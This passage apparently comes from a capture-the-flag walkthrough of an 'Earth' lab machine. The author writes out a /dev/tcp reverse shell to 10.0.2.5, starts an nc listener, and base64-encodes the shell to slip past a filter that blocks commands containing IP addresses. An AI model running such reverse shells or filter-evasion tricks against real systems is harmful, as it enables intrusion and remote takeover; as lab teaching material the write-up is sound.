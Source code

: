 The admin portal is simple. We have a basic shell and we can run commands on the server. So let's try to get a quick reverse shell!   
I will be using the following basic reverse shell
```
sh -i >& /dev/tcp/10.0.2.5/9001 0>&1
```
Now before we execute this on the server, we should also start a listener on our local machine.

```
nc -lvnp 9001
```
But our command failed. It seems there is a protection method in place which forbids us from making a remote connection.

![failed_shell](/assets/earth/fail.png)

Upon tinkering with it a little bit more, it seems to trigger the above error message whenever an IP address is involved in the command

![failed_ip](/assets/earth/ip_fail.png)

It means that we can still pass our reverse shell and it most likely will execute it but we first have to encode it. We can easily base64 encode our shell by using the following command or if you prefer, you can use an online encoder/decoder as well.
```
echo "sh -i >& /dev/tcp/10.0.2.5/9001 0>&1" | base64
```
![base64_encode](/assets/earth/base64_encode.png)

